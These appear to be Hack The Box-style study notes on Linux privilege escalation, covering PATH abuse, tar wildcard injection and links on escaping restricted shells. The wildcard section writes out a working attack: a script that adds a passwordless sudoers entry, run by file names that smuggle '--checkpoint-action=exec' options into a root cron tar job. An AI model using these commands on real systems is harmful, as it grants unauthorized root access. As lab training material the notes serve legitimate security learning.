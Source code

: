-  [Path Abuse](#path-abuse)
-  [Wildcard Abuse](#wildcard-abuse)
-  [Escaping Restricted Shells](#escaping-restricted-shells)
---
### Path Abuse
- [PATH](http://www.linfo.org/path_env_var.html) is an environment variable that specifies the set of directories where an executable can be located.
	- Creating a script or program in a directory specified in the PATH will make it executable
	- Adding `.` to a user's PATH adds the current directory to the list.
		``` bash
		$ echo $PATH
		/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
		$ PATH=.:${PATH}  
		$ export PATH  
		```
### Wildcard Abuse
- [Linux-PrivEsc-Wildcard](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)
- [wildcards-spare-tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)
- If we have a cron job that runs every minute with sudo privilege.
	``` txt
	mh dom mon dow command  
	*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
	```
	- We can leverage the wild card in the cron job to write out the necessary commands as **file names**.
		``` bash
		# Create shell script to append code to /etc/sudoers that will make you a sudoer.
		$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
		
		# Create a filenames that will be processed as tar command args
		# checkpoint flag, allows you to execute actions after specified number of files archived.
		$ echo "" > --checkpoint=1
		$ echo "" > "--checkpoint-action=exec=sh root.sh"
		
		$ ls -la
		-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
		-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
		-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
		-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
		```
### Escaping Restricted Shells
- [Escaping from Jails](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash)
- [Escape restricted shells](https://0xffsec.com/handbook/shells/restricted-shells/)